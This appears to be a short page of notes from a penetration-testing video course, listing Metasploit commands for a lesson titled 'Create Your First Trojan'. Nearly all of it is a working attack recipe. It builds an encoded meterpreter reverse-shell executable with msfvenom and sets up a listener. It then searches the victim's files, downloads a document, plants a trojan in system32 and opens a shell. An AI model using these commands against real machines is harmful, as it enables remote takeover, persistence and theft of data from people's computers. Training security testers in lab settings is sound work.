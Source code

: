 # 11_Create Your First Trojan and Infitratea Target

[Create Your First Trojan and Infitratea Target 👉VIDEO &#128279;](https://codered.eccouncil.org/courseVideo/Kali-for-Penetration-Testers?lessonId=8db2b460-fb1c-4870-98d2-dc2e4becdd36&finalAssessment=false)

**Command**

- `service postgresql start`

  - `msfconsole`
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kali-ip> LPORT=5555 -f exe -e x86/shikata_ga_nai -i 10 > trojan.exe`
    - `use multi/handler`
    - `set payload windows/meterpreter/reverse_tcp`
    - `set LHOST <kali-ip>`
    - `set LPORT 5555`
    - `exploit`
  - meterpreter > `help`

    - `sysinfo`
    - `ls`
    - `ipconfig`
    - `search -f *.doc`
    - `search -f *.txt`
    - `download C://Users/IEUser/Desktop/shares/hobbit.txt`

  - meterpreter > `upload trojan3.exe c://windows/system32`
  - meterpreter > `shell`
